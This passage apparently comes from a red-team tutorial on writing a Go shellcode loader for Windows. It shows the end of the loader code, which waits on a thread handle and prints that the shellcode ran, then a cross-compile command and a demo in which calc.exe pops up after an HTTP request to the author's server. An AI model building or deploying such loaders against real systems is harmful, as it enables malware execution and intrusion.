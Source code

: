 ```go
syscall.WaitForSingleObject(syscall.Handle(hhosthread), 0xffffffff)

if r != 0 {
    log.Fatal(err)
}

fmt.Println("[+] Shellcode has been executed!")
```

The loader is finished, let's compile and transfer it to our testing Windows machine

```sh
$ GOARCH=amd64 GOOS=windows go build main.go
```

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice15/compile-1.png" alt="pic">

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice15/demo-1.png" alt="pic">

As soon as I receive an HTTP request on my web server, a calc.exe window spawns.

# Second Example
